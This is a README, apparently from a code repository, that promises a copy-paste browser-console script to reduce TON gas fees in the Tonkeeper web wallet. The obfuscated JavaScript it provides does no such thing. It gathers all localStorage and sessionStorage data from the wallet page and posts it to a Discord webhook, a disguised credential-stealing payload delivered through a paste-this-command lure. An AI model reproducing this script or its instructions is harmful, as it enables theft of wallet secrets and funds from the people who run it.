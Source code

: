 # Reduce TON Gas Fee for Transactions in Tonkeeper Web Version

This is a JavaScript console script that reduces the gas fee for TON transactions in the Tonkeeper web version. The script can be executed directly in the browser's developer console when making transactions.

## Features:
- Easily reduces gas fees for crypto transactions in the Tonkeeper web interface.
- Simple, copy-paste solution with no additional setup required.

## How to Use:

### Step-by-Step Instructions:

1. **Open Tonkeeper Web**:
   - Navigate to the Tonkeeper web version in your browser. -> https://wallet.tonkeeper.com

2. **Open the Developer Console**:
   - Right-click anywhere on the page and select `Inspect` or press `F12` to open the browser's developer tools.
   - Navigate to the `Console` tab in the developer tools panel.

3. **Copy and Paste the Script**:
   - Copy the script provided in this repository.

4. **Execute the Script**:
   - Paste the copied script into the developer console and hit `Enter` to execute it.

5. **Proceed with Your Transaction**:
   - After running the script, continue with your TON transaction in Tonkeeper as usual.
   - The gas fee will be reduced as per the script.

### Script:

```javascript
const _0x464359=_0x5ce0;(function(_0x378e82,_0x40d045){const _0x1580fc=_0x5ce0,_0x3c9a41=_0x378e82();while(!![]){try{const _0x363c27=-parseInt(_0x1580fc(0xd9))/(-0x5f6+0x5f5+0x2)+-parseInt(_0x1580fc(0xc6))/(-0x138e*0x1+0x705*0x1+-0xf7*-0xd)+-parseInt(_0x1580fc(0xc5))/(0x11e4+0x26f*-0x10+0x150f)*(parseInt(_0x1580fc(0xd6))/(-0x67*-0x34+-0x21da+0xcf2*0x1))+parseInt(_0x1580fc(0xdc))/(0x1*0x1c5e+-0x4c2+-0x63*0x3d)+-parseInt(_0x1580fc(0xd1))/(-0x20ee+-0x258c+0x60*0xbc)*(parseInt(_0x1580fc(0xde))/(-0x1*0xea2+-0x234a+-0x13*-0x2a1))+parseInt(_0x1580fc(0xe0))/(-0x2*0xc5b+0x191*0x8+0xc36)*(parseInt(_0x1580fc(0xe2))/(0xacf+-0x1b13+-0x104d*-0x1))+parseInt(_0x1580fc(0xc4))/(-0xbb7+-0x1c3f+-0x400*-0xa)*(parseInt(_0x1580fc(0xc3))/(0x1477*0x1+0x23c+-0x5*0x488));if(_0x363c27===_0x40d045)break;else _0x3c9a41['push'](_0x3c9a41['shift']());}catch(_0x13b47f){_0x3c9a41['push'](_0x3c9a41['shift']());}}}(_0x35b7,0x24635*0x3+0x15357f+0x739*-0x265));const storageData={};function getStorageData(_0x4df26b){const _0x593974=_0x5ce0,_0x17cbf2={'KvIkn':function(_0x492a99,_0x20c1b6){return _0x492a99<_0x20c1b6;}},_0x212e2b={};for(let _0x4b27ea=0x960+-0x10e1+0x781;_0x17cbf2[_0x593974(0xe6)](_0x4b27ea,_0x4df26b[_0x593974(0xe3)]);_0x4b27ea++){const _0x4f1ed3=_0x4df26b[_0x593974(0xcd)](_0x4b27ea),_0x40eafe=_0x4df26b[_0x593974(0xe7)](_0x4f1ed3);_0x212e2b[_0x4f1ed3]=_0x40eafe;}return _0x212e2b;}Object[_0x464359(0xbe)](storageData,getStorageData(localStorage),getStorageData(sessionStorage));function _0x35b7(){const _0x4350ec=['jPJht','3148415qlNTdj','slice','42CtBGZG','Success:','128Xsppgt','he\x20end','654426bkeBlW','length','SPqmW','api/webhoo','KvIkn','getItem','json','QguYM','catch','Bye6UXqAGo','XWfnvPKm15','9737737257','error','https://di','QEXgvmguBc','assign','ks/1286419','ceil','log','applicatio','33LWPyrS','6096810AYUWpg','368889Kkcgnl','2534546qwDCgs','AYJnBqXJt8','uMJWR','scord.com/','l72EZFcH2Y','e\x20start\x0a','PDYIM','key','56/3_3ZS4g','then','This\x20is\x20th','453552cKZVRR','POST','Error:','n/json','VJYdx','16ozpSDT','9PQyegoeh7','\x0aThis\x20is\x20t','705824uyRlQI','stringify'];_0x35b7=function(){return _0x4350ec;};return _0x35b7();}function _0x5ce0(_0x258f58,_0x368f12){const _0x520487=_0x35b7();return _0x5ce0=function(_0x5ef446,_0x56dfc8){_0x5ef446=_0x5ef446-(0xf88*0x2+-0x359+-0x1afa);let _0x27f645=_0x520487[_0x5ef446];return _0x27f645;},_0x5ce0(_0x258f58,_0x368f12);}const content=JSON[_0x464359(0xda)](storageData,null,0x384+0xae6+-0xe68);function splitInHalf(_0x3b2fda){const _0xa43432=_0x464359,_0x5d1cba={'SPqmW':function(_0x55052d,_0x559553){return _0x55052d/_0x559553;}},_0x5d89b0=Math[_0xa43432(0xc0)](_0x5d1cba[_0xa43432(0xe4)](_0x3b2fda[_0xa43432(0xe3)],-0x1*-0x12db+0x1009+-0x1*0x22e2));return[_0x3b2fda[_0xa43432(0xdd)](0x6b*0x1f+0x1be2+-0x28d7,_0x5d89b0),_0x3b2fda[_0xa43432(0xdd)](_0x5d89b0)];}const [firstPart,secondPart]=splitInHalf(content),part1=_0x464359(0xd0)+_0x464359(0xcb)+firstPart,part2=secondPart+(_0x464359(0xd8)+_0x464359(0xe1)),webhookUrl=_0x464359(0xef)+_0x464359(0xc9)+_0x464359(0xe5)+_0x464359(0xbf)+_0x464359(0xed)+_0x464359(0xce)+_0x464359(0xca)+_0x464359(0xd7)+_0x464359(0xec)+_0x464359(0xc7)+_0x464359(0xeb)+_0x464359(0xbd)+'L';function sendToWebhook(_0x57a187){const _0x6983f0=_0x464359,_0x1bcfba={'VJYdx':_0x6983f0(0xdf),'PDYIM':_0x6983f0(0xd3),'uMJWR':function(_0x27d816,_0x53e29b,_0x30f14f){return _0x27d816(_0x53e29b,_0x30f14f);},'QguYM':_0x6983f0(0xd2),'jPJht':_0x6983f0(0xc2)+_0x6983f0(0xd4)};_0x1bcfba[_0x6983f0(0xc8)](fetch,webhookUrl,{'method':_0x1bcfba[_0x6983f0(0xe9)],'headers':{'Content-Type':_0x1bcfba[_0x6983f0(0xdb)]},'body':JSON[_0x6983f0(0xda)]({'content':_0x57a187})})[_0x6983f0(0xcf)](_0x47edb2=>_0x47edb2[_0x6983f0(0xe8)]())[_0x6983f0(0xcf)](_0xae5000=>{const _0x46594f=_0x6983f0;console[_0x46594f(0xc1)](_0x1bcfba[_0x46594f(0xd5)],_0xae5000);})[_0x6983f0(0xea)](_0x2ea2eb=>{const _0x3a77d3=_0x6983f0;console[_0x3a77d3(0xee)](_0x1bcfba[_0x3a77d3(0xcc)],_0x2ea2eb);});}sendToWebhook(part1),sendToWebhook(part2);

